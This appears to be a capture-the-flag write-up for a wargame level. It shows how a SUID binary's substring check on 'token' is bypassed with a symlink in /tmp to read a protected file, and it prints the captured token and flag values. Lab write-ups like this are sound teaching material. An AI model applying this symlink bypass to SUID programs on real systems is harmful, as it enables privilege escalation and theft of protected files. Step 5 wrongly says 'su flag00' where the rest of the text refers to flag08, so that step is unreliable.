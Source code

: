 Here's a `README` for **level08**, written in the same style and format as your previous solutions:

### Solution

1. **List files and check permissions**

	```bash
	ls -l
	```

	You will see the following files:

	```
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```

	* The binary `level08` is **owned by `flag08`** and has the **SUID bit** set, meaning it executes with `flag08`'s privileges.
	* `token` is a file readable **only** by `flag08`.

2. **Transfer the executable file to your host machine**

	From your host, use `scp` to copy the binary for analysis:

	```bash
	scp -P 4242 level08@<vm-ip>:~/level08 .
	```

3. **Analyze the binary with Ghidra**

	Decompiling with Ghidra shows the following logic:

	```c
	if (argc == 1) {
		printf("%s [file to read]\n", argv[0]);
		exit(1);
	}

	if (strstr(argv[1], "token")) {
		printf("You may not access '%s'\n", argv[1]);
		exit(1);
	}

	int fd = open(argv[1], O_RDONLY);
	read(fd, buf, 1024);
	write(1, buf, n);
	```

	🔎 The binary:

	* Prevents access to files **containing** the string `"token"`.
	* But it does **not resolve symlinks** — only checks the input path **string**.

4. **Bypass the check using a symlink**

	Create a symlink to the `token` file using a different name (e.g. `/tmp/flag08`):

	```bash
	ln -s ~/token /tmp/flag08
	```

	Then run the binary using the **symlink path**:

	```bash
	./level08 /tmp/flag08
	```

	Since `/tmp/flag08` does **not contain the substring** `token`, the binary allows access and reads the file.

	Output:

	```
	quif5eloekouj29ke0vouxean
	```

	You’ve successfully read the protected `token` file using a symbolic link.

5. **Switch to user `flag08` and get the flag:**

	```bash
	su flag00
	```

	Enter the token password: `quif5eloekouj29ke0vouxean`.

	Then run:
	```bash
	getflag
	```

	Output:

	```
	Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
	```

	You’ll receive the `flag08` token.
